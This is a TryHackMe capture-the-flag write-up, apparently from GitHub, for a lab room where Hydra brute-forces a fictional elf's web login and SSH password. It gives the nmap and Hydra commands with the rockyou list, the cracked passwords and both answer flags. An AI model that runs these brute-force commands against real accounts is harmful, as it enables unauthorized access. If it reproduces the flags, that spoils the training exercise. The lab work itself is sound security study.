 ## Introduction

> You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!  
Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found here.

> [Supporting materials can be found here](./Supporting_Doc.html).

## Questions

> 1) Use Hydra to bruteforce molly's web password. What is flag 1?

td:lr Answer: **THM{2673a7dd116de68e85c48ec0b1f2612e}**

> 2) Use Hydra to bruteforce molly's SSH password. What is flag 2?

td:lr Answer: **THM{c8eeb0468febbadea859baeb33b2541b}**


===============================================================================

Deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan for TCP ports under 1000:

`nmap <ip> -T4` --reveals open ports 22, 80  
start web browser - `<ip>`  

We find a login page, with a POST form.  
Use Hydra to bruteforce for the web password:  
`hydra -l molly -P rockyou.txt <ip> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -f -V` - This will take some time: **joyness1994**  
Alternatively, we can solves the #2 first, which will give us ans to #1.

For #2, we will do hydra bruteforce on the ssh:  
`hydra -l molly -P rockyou.txt <ip> -t 4 ssh` -- cracks password: **butterfly**

Log in via the web login page with the credentials:  
> username: molly  
> password: butterfly

![](./res/pic1.png)

Will yield us the answer: **THM{2673a7dd116de68e85c48ec0b1f2612e}**

SSH into the machine:  
`ssh molly@<ip>` -- password: butterfly  
`cat flag2.txt`  
Will give us the answer: **THM{c8eeb0468febbadea859baeb33b2541b}**

To find the #1 web password via SSH:  
`cat /home/ubuntu/elf`  
`cat hydra-challenge`

![](./res/pic2.png)  
Will yield us web password: joyness1994  
Will also yield us #1 answer.

